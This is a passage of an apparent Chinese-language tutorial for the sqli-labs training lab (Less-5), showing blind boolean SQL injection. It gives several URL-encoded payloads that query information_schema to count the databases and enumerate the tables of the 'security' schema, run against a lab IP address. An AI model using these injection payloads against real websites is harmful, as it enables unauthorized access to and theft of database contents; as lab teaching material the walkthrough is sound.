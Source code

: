 第二个数据库只需要更改`limit 0,1`为`limit 1,1`

不知道有多少个数据库？看看下面  

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20schema_name%20from%20information_schema.schemata%20limit%206,1))%3E0)--+`

![](assets/markdown-img-paste-20180418160639347.png)

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20schema_name%20from%20information_schema.schemata%20limit%205,1))%3E0)--+`

![](assets/markdown-img-paste-20180418160709936.png)

通过`limit`更改检测的数据库，`>`0表示当数据库名称长度大于0的时候表示数据库存在，如果`>0`不是1那么就说明数据库不存在，这个时候就知道一共有多少个数据库了，这里的数据库个数是`6`

现在就可以得到所有的数据库名称了，同理得到某数据库多少个表

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1))%3E0)--+`

第一个表的长度大于0

![](assets/markdown-img-paste-20180418163711478.png)
